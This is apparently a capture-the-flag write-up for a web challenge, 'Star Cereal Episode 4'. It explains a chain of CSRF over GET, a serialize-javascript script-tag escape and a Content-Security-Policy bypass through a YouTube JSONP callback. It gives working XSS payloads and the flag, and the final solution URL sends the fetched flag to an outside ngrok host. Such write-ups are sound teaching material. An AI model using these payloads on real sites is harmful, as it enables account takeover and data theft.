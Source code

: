 # Star Cereal Episode 4 - A New Pigeon

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{why_d0_p30pl3_s3r1al1z3_j4v4scr1pt...}`

## Description

Princess Rainbowpigeon gets abducted by the insidious Darth CON. Luke Skywalker merges teams with a Jedi Knight, a pilot and two droids to free her and to save the galaxy from the violent CTFtime weight vote. But I still can't find my cereal...

Note: the target page is `http://starcereal.web.seetf.sg:1337`.

## Difficulty

Medium

## Solution

1. The `/set` endpoint allows CSRF through GET requests, even though the intended usage by the app is through POST requests.

```javascript
app.all('/set', (req, res) => {
    req.session.username = req.param('username');
    req.session.cereal = req.param('cereal');
    res.redirect('/');
});
```
 
2. (Currently) unfixed vulnerability in [serialize-javascript](https://github.com/yahoo/serialize-javascript). Threw in [xss-filters](https://github.com/YahooArchive/xss-filters) just for fun (thanks Yahoo).

serialize-javascript attempts to sanitize `</script>` in the serialized object, but fails to do so when a non-http URL object is used. `xssFilters.inDoubleQuotedAttr` prevents us from escaping the double quotes, but we can still escape the script tag with `x:</script>`.

3. Bypass the CSP. We could make use of a JSONP endpoint on `www.youtube.com`.

```javascript
res.set("Content-Security-Policy", "default-src 'self' www.youtube.com 'nonce-" + nonce + "'");
```

This can be bypassed with `<script src='https://www.youtube.com/oembed?callback=alert();'>` which loads the following.

```javascript
// API callback
alert();({
  "error": {
    "code": 400,
    "message": "Invalid JSONP callback name: 'alert();'; only alphabet, number, '_', '$', '.', '[' and ']' are allowed.",
    "status": "INVALID_ARGUMENT"
  }
}
);
```

Example XSS payload: `/set?username=test&cereal=x:</script><script src='https://www.youtube.com/oembed?callback=alert(document.domain);'>`

Full solution:

```
http://starcereal.web.seetf.sg:1337/set?username=test&cereal=x:</script><script src='https://www.youtube.com/oembed?callback=fetch(`/flag`).then(function(r){return r.text()}).then(function(d){window.location=`https://d6be-175-156-124-45.ngrok-free.app?${d}`});'>
```